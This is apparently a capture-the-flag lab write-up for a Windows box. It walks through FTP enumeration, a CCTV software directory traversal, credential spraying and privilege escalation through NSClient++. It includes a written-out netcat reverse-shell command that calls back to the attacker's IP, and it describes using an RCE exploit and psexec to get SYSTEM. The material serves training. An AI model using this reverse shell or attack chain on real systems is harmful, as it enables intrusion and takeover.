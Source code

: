 # PORT SCAN
* **21** &#8594; FTP (anonymous login)
* **22** &#8594; SSH
* **80** &#8594; HTTP
* **135** &#8594; Microsoft RPC
* **139** &#8594; SMB (signing enabled but not required)
* **445** &#8594; SMB (secure, signing enabled but not required)
* **5666** &#8594; NRPE (Apparently)
* **6063** &#8594; X11
* **6699** &#8594; Napster (LOL, actaully we can see this port as a standard p2p port until new information)
* **8443** &#8594; HTTPS (tipically used by TomCat, title NSClient+)

<br><br><br>

# ENUMERATION & USER FLAG
Cool really exahustive port scan right here, this time I decide to google the box name and (after some walkthroughs) I have found [this tool on github](https://github.com/SeinopSys/ServMon) which is a sort of costum XAMPP Control Panel. I don't know if is used or not in the box (also exist at least another software with this name) but good to know.

By the way let's start from FTP since accept anonymous loging, inside we have a directory called `Users` with inside 2 subfolders with user name

![28e05d479c1c4aa916a0503a823bff64.png](img/28e05d479c1c4aa916a0503a823bff64.png)

Time to download the directory locally and check what we have here

![b8e4b7e9be59a73f5648755ec1692521.png](img/b8e4b7e9be59a73f5648755ec1692521.png)

Cool cool cool, in both we have the `.listing` file

![2ac9c89f4aea15f05ca978b760219c20.png](img/2ac9c89f4aea15f05ca978b760219c20.png)

Uhm.....ok(?) now is the Nadine `Confidential.txt` file

![88f6ab5c09c9cd0eea3c8183e90e5cc7.png](img/88f6ab5c09c9cd0eea3c8183e90e5cc7.png)

Ok now (just by intuition) if that file is still inside the Desktop of Nathan we can use `X11` protocol to access it and take Nadine password so let's take this option open,

Finally I can check the `TODO list` of Nathan

![e7136833787aa45c895c531508dc1d7b.png](img/e7136833787aa45c895c531508dc1d7b.png)

NVMS is not something known to me but can be or a CMS or a software for take a look at cameras but I fund no precise software/protocol so unless further enumeration doesn't give me enough info I will go on and hope on future informations. The fact that **secrets files are not uploaded on sharepoint** can mean they are locally on the box so good thing and **upload the passwords is unchecked** so on the Nathan Desktop we will found the password file but we need access now so time to check others port.

Port 80 uncover the NVMS enigma

![7a4bfaa06bfe55f49dfe53947e3a62ac.png](img/7a4bfaa06bfe55f49dfe53947e3a62ac.png)


Yeah, is a CCTV software and appear to be vulnerable to directory traversal

![ee367a1f3df61fe7db8ea61534d38f83.png](img/ee367a1f3df61fe7db8ea61534d38f83.png)

![efaf72524ec2d148a91169401e869697.png](img/efaf72524ec2d148a91169401e869697.png)

I tried and it works! After some trials I quickly retrieved the password file left on the Nathan Desktop

![90926a03e7218764b260055aea3ccc13.png](img/90926a03e7218764b260055aea3ccc13.png)

What happen when we have a list of user and a list of passwrods? **<u>CRACKMAPEXEC!</u>**

![db8144419ae75d9e9626310c2fe3e4d0.png](img/db8144419ae75d9e9626310c2fe3e4d0.png)

This tool is always satisfying when get the right credentials so we can use SSH (smb have nothing for us) and grab the user flag!

![ac9e383f32d937071c8a67b22fa0ca1d.png](img/ac9e383f32d937071c8a67b22fa0ca1d.png)

<br><br><br>

# PRIVILEGE ESCALATION
We are in and I have enough experience to know that one of the first thing to check on a WIndows environment are the application that can be found on `Program Files` and check if something new is available for us...

![575f451007a1691128a14164e9271c04.png](img/575f451007a1691128a14164e9271c04.png)

`NSClient++` is weird to have there and is described as **an agent designed originally to work with <u>Nagios</u> evolved into a fully fledged monitoring agent which can be used with numerous monitoring tools**. <u>Nagios</u> (which run on NRPE service identify before from the nmap scan) is used to monitor (remotely in this case) machine metrics.

The puzzle is slowly starting to be clear step by step, let's see what we inside the software directory but nothing cool.
We can use the CLI version of the software called `nscp` so first thing first is the version which is `0.5.2.35` and seems to be vulnerable to a known CVE 

![b0e6df5fbd8e997447b3a47243342354.png](img/b0e6df5fbd8e997447b3a47243342354.png)

COOL STUFF, COOL STUFF but someone can tell me why everyone can grab the password with this

![7ffe5d0dc001b6e35cbf3ce17d050823.png](img/7ffe5d0dc001b6e35cbf3ce17d050823.png)

LOL, now just follow the instructions to get the root 

1) We need to enable `CheckExternalScripts` and `Scheduler`, in order to achieve this we need to make a port forwarding (I get this because we can't remotely access it) but is not strictly needed because checking the configuration files this 2 configuration are activated from the start
2)  Upload `nc.exe` and a bat file like the following `\programdata\nc.exe 10.10.14.11 1234 -e cmd` (in my case everything in `programdata` directory)
3)  Now the hard part, we need to access the webapp and setting everythin in order to trigger the script. Why this is the hard part? Becausethe reverse port is glitchy as fuck...but with some patience we can login and we have the full interface

![901c28927c6f60826a1486819361eb54.png](img/901c28927c6f60826a1486819361eb54.png)

So we add an external script

![c5a3e0f0095aecf16e01c97578827df7.png](img/c5a3e0f0095aecf16e01c97578827df7.png)

And a scheduler

![26a1e947f5bf4804d8892d4d6c70dd3a.png](img/26a1e947f5bf4804d8892d4d6c70dd3a.png)

After some minutes we should have a reverse shell but not, why that? because defender is continously deleting the `nc.exe` file, annoying. So change of plans!

Let's use [this vulnerability](https://www.exploit-db.com/exploits/48360) wich is a RCE in order to add the user nandine to the administrators group. After downloding that and converting in python we can give thepassword and the url target (the one achieved with port forwarding) in order to get the RCE

![3e4431068415231b20cbac704df0deec.png](img/3e4431068415231b20cbac704df0deec.png)

Now let's check if everything was smooth

![f0f8cb7c68679fafcc7b7c9e9644f540.png](img/f0f8cb7c68679fafcc7b7c9e9644f540.png)

We are not done we need to make a PE on the PE (lol) in order to get `nt authority / system` and we can use PSEXEC for that. If we are part of administrators group we can abuse psexec which upload and start a Windows Service through SMB spawning a shell as `system` (more info [here](https://www.synacktiv.com/en/publications/traces-of-windows-remote-command-execution.html))

![8f9fe5cd09019001952bfc42a3498230.png](img/8f9fe5cd09019001952bfc42a3498230.png)

Good even if is a easy machine I have dealing with was a good training field for Windows skills!
